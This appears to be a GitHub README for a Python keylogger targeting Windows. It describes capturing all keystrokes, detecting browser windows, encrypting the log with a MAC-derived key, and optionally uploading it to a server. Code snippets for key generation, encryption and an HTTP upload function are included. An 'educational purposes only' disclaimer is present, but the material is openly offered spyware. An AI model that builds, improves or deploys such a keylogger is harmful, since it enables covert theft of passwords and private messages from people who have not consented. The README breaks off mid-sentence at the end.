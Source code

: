 # Keylogger Python Script

This Python script demonstrates a keylogger that captures keystrokes on a Windows machine. The script uses the `pynput` library for listening to keyboard events and `cryptography` to encrypt the captured keystrokes. It is intended for educational purposes only and should not be used for illegal activities.

## Features:
- Captures all keypress events.
- Detects the currently active window (e.g., browsers).
- Logs keystrokes to a file.
- Automatically flushes the buffer every 5 seconds or 100 characters.
- Encrypts the log file using `cryptography.fernet` encryption.
- Uploads the encrypted file to a server (optional).

## Prerequisites:
- Python 3.x
- Required libraries:
  - `cryptography`
  - `pynput`
  - `requests`
  - `pywin32` (for Windows API interaction)
  
You can install the required libraries using pip:

```bash
pip install cryptography pynput requests pywin32
```
## How it Works:
  - Key Generation: The script generates a unique key based on the machine's MAC address to encrypt and decrypt the log file.
  - Keylogger: Captures all keystrokes and identifies special keys like Enter, Space, and Backspace.
  - Browser Detection: Checks if the active window is a browser (Chrome, Firefox, Edge, Opera) to make browser-specific corrections in the logs.
  - Buffer Management: Keystrokes are stored in a buffer and flushed to a log file periodically or when the buffer reaches 100 characters.
  - Encryption: The log file is encrypted using the Fernet symmetric encryption method.
  - File Upload: Optionally, after encryption, the log file can be uploaded to a server.

## Code Walkthrough:

Key Generation
The machine key is generated using the MAC address, which is then base64-encoded for encryption purposes.

```bash
def generate_machine_key():
    mac_address = uuid.getnode()
    mac_str = str(mac_address).encode()
    padded = mac_str.ljust(32, b' ')
    return urlsafe_b64encode(padded)
```
## Keystroke Handling
- The handle_keypress function processes keypress events, distinguishing between regular keys and special keys (e.g., Enter, Backspace). The keystrokes are stored in a buffer.

## Encryption
- The captured keystrokes are written to a log file, which is later encrypted using the cryptography.fernet module.
```bash
def encrypt_file(filename, cipher):
    try:
        with open(filename, "rb") as f:
            data = f.read()
        encrypted = cipher.encrypt(data)
        with open(f"{filename}.encrypted", "wb") as f:
            f.write(encrypted)
        os.remove(filename)
        print(f"File encrypted: {filename}.encrypted")
    except Exception as e:
        print(f"Encryption error: {e}")
```
## Uploading the Encrypted File
After encryption, the log file can be uploaded to a server. In this case, it uses a mock URL (http://localhost:3000/upload), but this can be replaced with an actual upload server.

```bash 
def upload_file(filename):
    try:
        with open(filename, "rb") as f:
            requests.post("http://localhost:3000/upload", files={"file": f})
        print("Upload successful")
    except Exception as e:
        print(f"Upload failed: {e}")
```
## Running the Script
- To start the keylogger, simply run the script. It will start listening for keypress events, log them, and encrypt the log when you press the ESC key.

```bash
python keylogger.py
```
- Press ESC to stop the keylogger. After stopping, the log file is encrypted and can be uploaded if desired.

Disclaimer:
This script is for educational purposes only. Using this script for malicious purposes, such as capturing someone's keystrokes without their consent, is illegal and unethical. Ensure you have proper authorization before using this script.

## This repo also include the encryption and decryption tools that used . you can find documntion for those as following 






